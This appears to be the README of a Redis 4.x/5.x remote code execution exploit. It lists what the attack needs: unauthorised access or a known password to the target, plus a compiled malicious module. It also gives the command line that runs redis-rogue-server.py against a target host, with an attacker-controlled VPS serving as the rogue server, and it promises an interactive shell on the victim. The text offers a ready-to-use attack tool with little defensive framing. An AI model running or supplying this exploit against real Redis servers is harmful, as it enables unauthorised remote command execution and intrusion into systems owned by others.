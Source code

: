 ## Redis 4.x/Redis 5.x RCE EXP
tech reference: [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

test passed by Redis 5.0.9.

## Prepare:
* Redis 4.x/5.x unauthorized access or you know its auth password.
* your PC and target Redis can comm with each other.
* compile `.so` module, reference: https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

## Usage:

```bash
python3 redis-rogue-server.py --rhost <target address> [--rport <target port>] --lhost <vps address> [--lport <vps port>] [--so <.so filename>] [--rpasswd <redis auth>]
```

Finally, you will get a interactive shell. Use `exit` to quit and clean rhost server or use `ctrl-C` to quit without clean.